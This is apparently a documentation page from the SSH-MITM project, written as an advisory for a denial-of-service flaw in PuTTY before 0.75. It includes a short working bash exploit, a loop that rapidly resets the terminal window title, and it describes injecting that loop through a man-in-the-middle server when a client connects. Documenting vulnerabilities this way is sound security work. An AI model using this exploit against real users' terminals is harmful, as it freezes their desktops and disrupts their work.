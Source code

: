 PuTTY < v0.75 DoS
=================

.. raw:: html

    <div class="card card-margin">
        <div class="card-header no-border">
            <h5 class="card-title cve-title">PuTTY &lt; v0.75 DoS</h5>
        </div>
        <div class="card-body pt-0">
            <div class="widget-49">
                <div class="widget-49-title-wrapper">
                    <div class="widget-49-date-primary">
                        <span class="widget-49-date-day">7.5</span>
                        <span class="widget-49-date-month">CVSS</span>
                    </div>
                    <div class="widget-49-meeting-info">
                        <span class="widget-49-pro-title"><b>Vector:</b> CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H</span>
                        <span class="widget-49-meeting-time">
                            <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/changes.html">https://www.chiark.greenend.org.uk/~sgtatham/putty/changes.html</a>
                        </span>
                    </div>
                </div>
                <p class="widget-49-meeting-integration">
                    <i class="fas fa-check"></i> integrated in <a href="https://github.com/ssh-mitm/ssh-mitm-plugins/blob/main/ssh_mitm_plugins/ssh/putty_dos.py">SSH-MITM plugins</a>
                </p>
                <p class="widget-49-meeting-text">
                    A server could DoS the whole Windows/Linux GUI by telling
                    the PuTTY window to change its title repeatedly at high speed.
                </p>
                <span class="widget-49-pro-title"><b>Affected Software:</b></span>
                <ul class="widget-49-meeting-points">
                    <li class="widget-49-meeting-item"><b>PuTTY</b> &lt; 0.75</li>
                </ul>
            </div>
        </div>
    </div>

Description
-----------

A vulnerability in PuTTY < 0.75 freezes the entire, leading inevitably to a manual restart. This happens when executing
a simple command to repeatedly change the terminals title.

Set window title from terminal:

.. code-block:: bash

    $ PS1=''
    echo -ne "\033]0; NEW_TITLE \007"

Thus, an working exploit would be:

.. code-block:: bash

    $ PS1=''
    while :
    > do
    > echo -ne "\033]0; NEW_TITLE${RANDOM}  \007"
    > done


Using the injection functionality of the mitm Server, this exploit can be executed immediately when a client connects
to the mitm server via PuTTY.

Mitigation
----------

Update PuTTY to version >= 0.75
